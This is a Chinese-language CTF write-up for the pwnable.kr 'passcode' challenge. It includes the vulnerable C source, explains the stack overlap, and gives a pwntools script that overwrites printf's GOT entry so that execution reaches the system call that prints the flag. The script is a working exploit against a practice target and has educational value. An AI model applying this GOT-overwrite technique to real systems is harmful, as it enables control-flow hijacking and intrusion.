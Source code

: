

### 05 passcode
* ```c
  #include <stdio.h>
  #include <stdlib.h>

  void login(){
          int passcode1;
          int passcode2;

          printf("enter passcode1 : ");
          scanf("%d", passcode1);
          fflush(stdin);

          // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
          printf("enter passcode2 : ");
          scanf("%d", passcode2);

          printf("checking...\n");
          if(passcode1==338150 && passcode2==13371337){
                  printf("Login OK!\n");
                  system("/bin/cat flag");
          }
          else{
                  printf("Login Failed!\n");
                  exit(0);
          }
  }

  void welcome(){
          char name[100];
          printf("enter you name : ");
          scanf("%100s", name);
          printf("Welcome %s!\n", name);
  }

  int main(){
          printf("Toddler's Secure Login System 1.0 beta.\n");

          welcome();
          login();

          // something after login...
          printf("Now I can safely trust you that you have credential :)\n");
          return 0;
  }

  ```

* scanf("%100s", name);scanf会自动添加\x00。
* scanf("%d %d",&a,&b);scanf参数都为指针，但是题目中没有使用指针。
* login函数和welcome函数栈底相同，所以name和passcode1在同一片内存区域。
* **got表覆写**：构造name从而控制passcode1的值为某个函数A的got地址，然后利用scanf函数将函数A的got地址的值改为执行system的地址，这样执行函数A时就会转去执行system函数。
* 题解
  ```python
  from pwn import *
  server = ssh('passcode', 'pwnable.kr', 2222, 'guest')
  io = server.process('./passcode')
  system_addr = 0x080485E3
  printf_got = 0x0804A000
  name = b'a'*96+p32(printf_got) # name将改写passcode1的值为prinf函数got地址。此时passcode1为指针。
  io.sendlineafter('name : ',name)
  #print(io.recv())  # 使用sendafter时，不需要recv
  io.sendlineafter('passcode1 : ',b'134514147')  #因为是scanf('%d')，所以不用p32()，直接输入数字即可。 scanf函数将prinf函数的got覆盖为system。
  result = io.recvall()
  ```